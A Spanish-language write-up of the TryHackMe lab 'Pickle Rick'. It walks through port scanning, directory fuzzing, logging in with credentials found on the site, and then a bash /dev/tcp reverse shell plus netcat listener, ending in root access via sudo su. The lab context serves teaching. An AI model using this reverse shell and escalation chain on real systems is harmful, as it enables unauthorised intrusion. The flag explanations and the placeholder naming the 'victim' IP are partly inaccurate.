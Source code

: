 # Pickle Rick

[Pickle Rick](https://tryhackme.com/r/room/picklerick) es un nivel facil de la plataforma TryHackMe de nivel fácil. En esta máquina se tocan temas de WebHacking.

## Reconocimiento <a href="#reconocimiento" id="reconocimiento"></a>

Primero hacemos un escaneo de puertos con **nmap**.

```bash
nmap -p- --open --min-rate 5000 -n -Pn -vvv 10.10.147.169 -oN escaneo 
```

* **-p-**: Indica que escanee todos los puertos , desde el 1 hasta el 65535. Sin este parámetro solo se escanea los 1000 puertos más comunes.
* **–open**: Solo escanear puertos abiertos.
* **-sS**: SYN Scan, también conocido como half-open scan, este no completa la conexión con el destino, esto hace el escaneo un poco más rápido y difícil de detectar.
* **-sC**: Activa la ejecución de scripts de predeterminados Nmap Scripting Engine (NSE).
* **-sV**: Encuentra la versión de servicio que corre en cada puerto.
* **–min-rate**: Fija la cantidad mínima de paquetes para enviar por segundo.
* **-n**: No resolución DNS.
* **-Pn**: Null Ping. Se usa por si el servidor esta bloqueando trazas ICMP.
* **-vvv**: Triple verbose. Hace que imprima la información mientras la va encontrando. Se puede modificar la cantidad de “v”, el máximo es 3.
* **-oN**: Se utiliza para guardar los resultados del escaneo en un archivo de salida en **formato normal** (normal output). Siempre va acompañado del nombre del archivo donde se guardara.

<figure><img src="https://eberstr.github.io/img/picklerick/nmap-scaneo.png" alt=""><figcaption></figcaption></figure>

Este escaneo nos muestra que la máquina tiene abiertos los puertos: **80(HTTP)** y **22(SSH)**.

Entramos a la página y hacemos un poco de exploración.

<figure><img src="https://eberstr.github.io/img/picklerick/sitio.png" alt=""><figcaption></figcaption></figure>

La página es muy sencilla por lo que nos brincamos directo a inspeccionar el código fuente, ahí encontramos algo muy interesante **¡un usuario!**\


<figure><img src="https://eberstr.github.io/img/picklerick/user.png" alt=""><figcaption></figcaption></figure>

\
Una vez encontrado el usuario exploramos algunas rutas que siempre son de interes como `robots.txt` y `sitemaps.xml`. Al parecer no existe el archivo sitemaps pero dentro de robots encontramos un mensaje un poco extraño que guardaremos para después.

<figure><img src="https://eberstr.github.io/img/picklerick/robots.png" alt=""><figcaption></figcaption></figure>



## Fuzzing <a href="#fuzzing" id="fuzzing"></a>

Para esta etapa usaremos gobuster, buscaremos subdominios interesantes y archivos con extensiones **.php**, .html y **.txt**

```bash
gobuster dir -u http://10.10.147.169 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="https://eberstr.github.io/img/picklerick/fuzzing.png" alt=""><figcaption></figcaption></figure>

De los resultados más interesantes es el panel de login, en el cual intentamos ingresar utilizando el usuario `R1ckRul3s` y de contaseña `Wubbalubbadubdub`\
\


<figure><img src="https://eberstr.github.io/img/picklerick/login.png" alt=""><figcaption></figcaption></figure>

**¡¡Funcionó!!**

Dentro del panel nos encontramos con un panell de comandos. Le ingresamos el comando `whoami` para probar si funciona.

<figure><img src="https://eberstr.github.io/img/picklerick/command-panel.png" alt=""><figcaption></figcaption></figure>

## Exploit <a href="#exploit" id="exploit"></a>

Como se ve en la imagen, el comando funcionó. Ahora nos intentamos enviar una reverse shell para trabajar un poco más cómodos desde la terminal.

```bash
bash -c  "sh -i >& /dev/tcp/<IP Victima>/<puerto> 0>&1"
```

No olviden ponerse en escucha para poder recibir la reverse shell:

```bash
sudo nc -lnvp <puerto>
```



<figure><img src="https://eberstr.github.io/img/picklerick/reverse-shell.png" alt=""><figcaption></figcaption></figure>

Una vez recibida la shell exploramos archivos y vemos los primeros archivos interesantes en la ruta de `/var/www/html`.

<figure><img src="https://eberstr.github.io/img/picklerick/primer-ingrediente.png" alt=""><figcaption></figcaption></figure>

El primer archivo interesante es **Sup3rS3cretPickl3Ingred.txt** en el cual esta el primer ingrediente que estamos buscando. El segundo archivo es **clue.txt** en el cual solo nos indican que tenemos que explorar en los demás archivos.

El primer lugar en el que buscamos es en la ruta del usuario rick **/home/rick/** y justo encontramos lo que buscabamos: **second ingridients**.

<figure><img src="https://eberstr.github.io/img/picklerick/segundo-ingrediente.png" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios <a href="#escalada-de-privilegios" id="escalada-de-privilegios"></a>

Para el tercer ingrediente buscaremos en la directorio `/root` pero primero necesitaremos escalar privilegios. Para esto ejecutamos el siguiente comando:

```bash
sudo -l
```

Este comando nos sirve para listar los comandos que el usuario puede ejecutar como **sudo**. Los resultados nos muestran que el usuario `www-data` tiene permisos para ejecutar cualquier comando como sudo.

<figure><img src="https://eberstr.github.io/img/picklerick/sudo-l.png" alt=""><figcaption></figcaption></figure>

Podemos escalar privilegios simplemente ejecutando el comando `sudo su`, después vamos a la ruta **/root** en donde se encuentra el tercer ingrediente.

<figure><img src="https://eberstr.github.io/img/picklerick/tercer-ingrediente.png" alt=""><figcaption></figcaption></figure>

Y con esto logramos todos los objetivos de la máquina.

¡Saludos!
